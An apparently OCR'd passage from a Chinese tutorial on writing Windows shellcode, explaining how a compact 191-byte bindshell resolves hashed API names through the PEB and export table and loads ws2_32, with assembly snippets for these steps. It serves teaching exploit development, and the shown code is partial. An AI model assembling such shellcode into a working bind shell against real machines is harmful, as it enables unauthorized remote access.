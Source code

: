 这里顺便看一下字符串“cmd”紧跟在 hash 值后面会对程序执行有什么影响。在调用 CreateProcessA 的时候，我们需要这个字符串作参数来得到一个命令行的 shell。已知这个调用不需要后缀“.exe”，并且对字符串的要求是大小写无关的，也就是说，“cMd”与“cmD”是
等价的，如下表所示。


ASCII 字值及其机器码对应的指令

|ASCII 字符| ASCII 值（机器码）| 机器码对应的指令|
|-|-|-|
|C (大写) |0x43 |inc ebx|
|M （大写） |0x4d |dec ebp|
|d （小写）| 0x64| FS:| 

0x64 对应的是取指前缀，就是告诉处理器取指令的时候去 FS 段中的地址里取。由于大多数情况只是要执行下一条指令，所以前缀是多余的，并且会被处理器忽略。因此，字符串“CMd” 也将被处理器当做指令“不疼不痒”地执行过去。

#### 191 个字节的 bindshell
在优化完 hash 算法之后，还需要把 hash 过的函数名变成真正的函数地址。有两种思路：
- 一次解析出所有函数的入口地址，然后保存在栈中以供后面使用；
- 在每次使用到这个函数的时候再去解析它。

这两种方案各有利弊，需要视具体情况而定，这里采用第一种方案。我们准备把解析出的函数地址存于栈中 shellcode 的“上”边（内存低址）。由于是通过调用 ExitProcess 退出程序，所以不用担心堆栈平衡等内存细节。

一共需要8个函数地址，每个4字节，共32字节。我们将从hash摘要前的24个字节的地方开始存储函数地址，意味着最后两个地址将写入hash摘要区域，而且刚好在字符串“cmd”之前结束。8个函数名的hash值共占用8字节。这样重叠布置，是为了可以用寄存器中指向“cmd”字符串的指针，来调用CreateProcessA。

之后用```lodsb```指令来读取hash值、```stosd```指令来存储函数地址，为此需要把esi指向hash值、edi指向函数地址的存储位置。由于这时eax中的值相对较小，指向栈中某个位置，所以可以使用CDQ给EDX清零。

我们需要的函数来自两个动态链接库：kernel32.dll和ws2_32.dll，由于ws2_32.dll还没有装载，而每一个windows的进程都会装kernel32.dll，所以先从它开始。这里还是用上一节查询PEB的方法动态寻找所需函数。

当kernel32中所需的全部被找到并获取地址后，需要调用LoadLibrary("ws2_32")，然后用获得的基址去定位winsock需要的其它函数。

后面调用WSAStartup函数时，为了避免内存错误，还需要一个比较大块的栈空间来初始化WSADATA结构体。

我们在栈中存储字符串“ws2_32"及其指针的代码如下：

```asm
xor edx,edx   ;若之前确定edx=0，此指令可省略
mov dh, 0x03
sub esp, edx ；栈顶抬高 0x0300
mov dx, 0x3233 ；0x32 是 ASCII 字符‘2’，0x33 是字符‘3’
push edx ；edx 此时的内容为 0x00003233，压栈后内存由低到高的
			；方向为 0x33320000
push 0x5f327377 ；“ws2_32”
push esp        ；此时的 esp 指向字符串“ws2_32”
```

假设解析函数地址时 ebp 中存储着动态链接库的基址，esi 指向下一个函数名的 hash 值，edi 指向下一个函数入口地址应该存放的位置。

在读入 hash 值之后，需要找到函数导出表。

```asm
find_lib_functions:
	lodsb	;al = first hash digest of desired function name 
			;esi++

find_functions:
	pushad		;save all pointer: ebp esi edi...
	mov eax, [ebp + 0x3c] ; eax = start of PE NT header of some dll
	mov ecx, [ebp+eax+0x78] ;ecx = offset of export table
	add ecx, ebp			; ecx = aboslute address of export table
	mov ebx, [ecx + 0x20]   ; ebx = offset of name table of export functions
	add ebx, ebp			; ebx = aboslute address of name table
	xor edi, edi			; edi is a index  
```